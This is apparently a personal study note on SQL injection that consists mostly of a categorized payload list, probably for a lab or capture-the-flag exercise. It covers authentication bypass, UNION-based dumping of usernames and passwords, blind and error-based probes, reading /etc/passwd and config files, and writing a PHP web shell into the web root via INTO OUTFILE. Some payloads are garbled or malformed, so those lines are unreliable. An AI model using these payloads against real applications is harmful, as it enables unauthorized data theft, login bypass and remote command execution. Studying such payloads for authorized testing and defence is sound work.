 

## What is SQL Injection ? 

- **SQL Injection is a web vulnerability where an attacker ==injects malicious SQL code into an application’s database query via user input== (e.g., a URL parameter, form field, or cookie).**

- *If the app doesn’t sanitize inputs, the injected code can manipulate the query to extract data, bypass authentication, or even execute commands.


## SQL Injection Cheat sheet : 

https://portswigger.net/web-security/sql-injection/cheat-sheet

## List of payloads of SQLi : 

1. **Classic SQLi Payloads** : 

	- `1 OR 1=1`
	- `1 OR '1'='1`
	- `1' OR '1'='1`
	- `1" OR "1"="1`
	- `1 --`
	- `1 #`
	- `1/*`
	- `1' --`
	- `1' #`
	- `1'/*`
	
2. **Authentication Bypass Payloads :** 

	- `admin' OR 1=1 --`
	- `admin' OR '1'='1' --`
	- `admin' OR 1=1#`
	- `admin' OR '1'='1'#`
	- `admin' OR 1=1/*`
	- `jeremy' OR 1=1#`
	- `jeremy' OR '1'='1' --`
	- `' OR ''='`
	- `' OR '1'='1`
	- `admin" OR "1"="1 --`
	- `") OR ("1"="1`
	- `') OR ('1'='1`

3. **UNION-Based Payloads : **

	- `1 UNION SELECT 1,2`
	- `1 UNION SELECT 1,2,3`
	- `1 UNION SELECT 1,@@version,3`
	- `1 UNION SELECT 1,database(),3`
	- `1 UNION SELECT 1,schema_name,3 FROM information_schema.schemata`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='lab_db'`
	- `1 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'`
	- `1 UNION SELECT 1,username,password FROM users`
	- `1 UNION SELECT 1,flag,3 FROM flags`
	- `1 UNION SELECT 1,secret,3 FROM secrets`
	- `1 UNION SELECT 1,concat(username,':',password),3 FROM users`
	- `1 UNION SELECT 1,2,3 (for invalid IDs)`
	- `1 UNION ALL SELECT 1,2,3`

4. **Blind Boolean-Based Payloads :**

	- `1 AND 1=1`
	- `1 AND 1=2`
	- `1 AND (SELECT 1 FROM users WHERE username='admin')=1`
	- `1 AND (SELECT 1 FROM users WHERE username='jeremy')=1`
	- `1 AND (SELECT count(*) FROM users)>0`
	- `1 AND (SELECT length(database()))=7`
	- `1 AND ascii(substring((SELECT database()),1,1))=108 (extracts l from lab_db)`

5. **File Operation Payloads (MySQL) :**

	- `1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/flag.txt'),3`
	- `1 UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'`
	- `1 UNION SELECT 1,@@secure_file_priv,3 (check file access restrictions)`

6. **Encoded Payloads (Bypass Filters) :**

	- `1%27%20OR%20%271%27=%271 (' OR '1'='1)`
	- `%27%20OR%201=1%23 (' OR 1=1#)`
	- `1%20UNION%20SELECT%201%2C@@version%2C3`
		-  `1%20AND%20IF%28ascii%28substring%28%28SELECT%20database%28%29%29%2C1%2C1%29%29=108%2CSLEEP%285%29%2C0%29`

7. **Miscellaneous Payloads :**

	- `1 ORDER BY 1 (test column count)`
	- `1 ORDER BY 2`
	- `1 ORDER BY 3`
	- `1 UNION SELECT 1,v` ersion (), 3
	- `1 AND (SELECT 1)=1`
	- `1' AND '1'='1`
	- `1" AND "1"="1`
	- `1 OR true`
	- `1 AND false`

8. **Error-Based Payloads (MySQL) :**

	- `1 AND extractvalue(1,concat(0x7e,(SELECT @@version)))`
	- `1 AND (SELECT 1 FROM (SELECT count(*),concat((SELEC database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) ) )a)`
	- `1' AND extractvalue(1,concat(0x7e,(SELECT username FROM users LIMIT 0,1)))#`